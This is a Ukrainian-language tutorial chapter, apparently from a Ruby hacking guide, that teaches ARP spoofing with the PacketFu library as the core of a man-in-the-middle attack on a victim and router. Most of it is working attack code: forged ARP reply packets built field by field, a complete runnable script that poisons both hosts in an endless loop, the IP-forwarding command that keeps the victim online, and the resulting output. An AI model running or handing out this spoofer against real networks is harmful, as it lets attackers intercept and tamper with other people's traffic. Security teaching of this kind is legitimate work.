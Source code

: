 # Підміна ARP
Як ви знаєте, атака з підміною ARP(ARP Spoofing attack) це ядро атаки під назвою "Людина в середині"(MitM attacks). В цій частині ми дізнаємося як написати простий але ефективний підмінювач ARP та використаємо його пізніше для спуфінг атаки.

#### Сценарій
В цьому сценарії у нас є три машини, розташовані як показано нижче:
```
             |Нападник|
                 |
                 ٧
|Жертва| -----------------> |Роутер| ---> Інтернет
```
Список IP та MAC адрес кожної з них у наступній таблиці[^1]

| Хост/Інфо |   IP Адреса   |    MAC Адреса     |
|-----------|:-------------:|:-----------------:|
| Нападник  | 192.168.0.100 | 3C:77:E6:68:66:E9 |
| Жертва    | 192.168.0.21  | 00:0C:29:38:1D:61 |
| Роутер    | 192.168.0.1   | 00:50:7F:E6:96:20 |

Щоб отримати інформацію про наш інтерфейс(інтерфейс нападника) використаємо наступний код:

```ruby
info = PacketFu::Utils.whoami?(:iface => "wlan0")
```
І він поверне щось типу:
```
{:iface=>"wlan0",
 :pcapfile=>"/tmp/out.pcap",
 :eth_saddr=>"3c:77:e6:68:66:e9",
 :eth_src=>"<w\xE6hf\xE9",
 :ip_saddr=>"192.168.0.13",
 :ip_src=>3232235533,
 :ip_src_bin=>"\xC0\xA8\x00\r",
 :eth_dst=>"\x00P\x7F\xE6\x96 ",
 :eth_daddr=>"00:50:7f:e6:96:20"}
```
Отже ви можете використовувати цю інформацію і брати її з хешів`info[:iface]`, `info[:ip_saddr]`, `info[:eth_saddr]`, і таке інше..


**Побудова ARP пакету для жертви**
```ruby
# Створемо заголовки
arp_packet_victim = PacketFu::ARPPacket.new
arp_packet_victim.eth_saddr = "3C:77:E6:68:66:E9"       # наша MAC адреса
arp_packet_victim.eth_daddr = "00:0C:29:38:1D:61"       # MAC адреса жертви
# Та додамо пакети
arp_packet_victim.arp_saddr_mac = "3C:77:E6:68:66:E9"   # наша MAC адреса
arp_packet_victim.arp_daddr_mac = "00:0C:29:38:1D:61"   # MAC адреса жертви
arp_packet_victim.arp_saddr_ip = "192.168.0.1"          # IP роутера
arp_packet_victim.arp_daddr_ip = "192.168.0.21"         # IP жертви
arp_packet_victim.arp_opcode = 2                        # код  arp 2 це ARP відповідь
```

**Побудова пакету для роутера**
```ruby
# Створемо заголовки
arp_packet_router = PacketFu::ARPPacket.new
arp_packet_router.eth_saddr = "3C:77:E6:68:66:E9"       # наша MAC адреса
arp_packet_router.eth_daddr = "00:0C:29:38:1D:61"       # MAC адреса роутера
# Та додамо ARP пакет
arp_packet_router.arp_saddr_mac = "3C:77:E6:68:66:E9"   # наша MAC адреса
arp_packet_router.arp_daddr_mac = "00:50:7F:E6:96:20"   # MAC адреса роутера
arp_packet_router.arp_saddr_ip = "192.168.0.21"         # IP жертви
arp_packet_router.arp_daddr_ip = "192.168.0.1"          # IP роутера
arp_packet_router.arp_opcode = 2                        # код  arp 2 це ARP відповідь

```

**Робимо спуфінг атаку на ARP**
```ruby
# Відправляємо наш пакет у мережу
while true
    sleep 1
    puts "[+] Sending ARP packet to victim: #{arp_packet_victim.arp_daddr_ip}"
    arp_packet_victim.to_w(info[:iface])
    puts "[+] Sending ARP packet to router: #{arp_packet_router.arp_daddr_ip}"
    arp_packet_router.to_w(info[:iface])
end
```
Джерело[^2]

Беремо все це разом і виконуємо від імені користувача `root`

```ruby
#!/usr/bin/env ruby
#
# ARP Spoof Basic script
#
require 'packetfu'

attacker_mac = "3C:77:E6:68:66:E9"
victim_ip    = "192.168.0.21"
victim_mac   = "00:0C:29:38:1D:61"
router_ip    = "192.168.0.1"
router_mac   = "00:50:7F:E6:96:20"

info = PacketFu::Utils.whoami?(:iface => "wlan0")
#
# Victim
#
# Build Ethernet header
arp_packet_victim = PacketFu::ARPPacket.new
arp_packet_victim.eth_saddr = attacker_mac        # attacker MAC address
arp_packet_victim.eth_daddr = victim_mac          # the victim's MAC address
# Build ARP Packet
arp_packet_victim.arp_saddr_mac = attacker_mac    # attacker MAC address
arp_packet_victim.arp_daddr_mac = victim_mac      # the victim's MAC address
arp_packet_victim.arp_saddr_ip = router_ip        # the router's IP
arp_packet_victim.arp_daddr_ip = victim_ip        # the victim's IP
arp_packet_victim.arp_opcode = 2                  # arp code 2 == ARP reply

#
# Router
#
# Build Ethernet header
arp_packet_router = PacketFu::ARPPacket.new
arp_packet_router.eth_saddr = attacker_mac        # attacker MAC address
arp_packet_router.eth_daddr = router_mac          # the router's MAC address
# Build ARP Packet
arp_packet_router.arp_saddr_mac = attacker_mac    # attacker MAC address
arp_packet_router.arp_daddr_mac = router_mac      # the router's MAC address
arp_packet_router.arp_saddr_ip = victim_ip        # the victim's IP
arp_packet_router.arp_daddr_ip = router_ip        # the router's IP
arp_packet_router.arp_opcode = 2                  # arp code 2 == ARP reply

while true
    sleep 1
    puts "[+] Sending ARP packet to victim: #{arp_packet_victim.arp_daddr_ip}"
    arp_packet_victim.to_w(info[:iface])
    puts "[+] Sending ARP packet to router: #{arp_packet_router.arp_daddr_ip}"
    arp_packet_router.to_w(info[:iface])
end

```

> Зверніть увагу: Не забудьте ввімкнути опцію пересилання пакетиів(packet forwarding) на вашій системі аби жертва могла користуватися інтернетом:

> `echo "1" > /proc/sys/net/ipv4/ip_forward `

повертає наступне, і можемо погратися програмою wireshark ;)
```
[+] Sending ARP packet to victim: 192.168.0.21
[+] Sending ARP packet to router: 192.168.0.1
.
.
.
[+] Sending ARP packet to victim: 192.168.0.21
[+] Sending ARP packet to router: 192.168.0.1
[+] Sending ARP packet to victim: 192.168.0.21
[+] Sending ARP packet to router: 192.168.0.1
```



<br><br><br>
---
[^1]: Create генератор таблиць - [Table Generator](http://www.tablesgenerator.com/markdown_tables)

[^2]: Source: [DNS Spoofing Using PacketFu](http://crushbeercrushcode.org/2012/10/ruby-dns-spoofing-using-packetfu/)
